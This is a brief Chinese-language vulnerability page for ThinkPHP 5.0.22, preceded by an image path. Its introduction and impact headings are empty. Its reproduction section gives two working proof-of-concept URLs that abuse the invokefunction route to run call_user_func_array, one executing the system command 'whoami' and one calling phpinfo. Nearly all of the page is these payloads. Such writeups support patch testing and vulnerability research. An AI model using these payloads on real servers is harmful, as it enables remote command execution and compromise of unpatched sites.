 # Thinkphp 5.0.22

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

1、poc


```
http://url/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```

2、poc


```
http://url/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```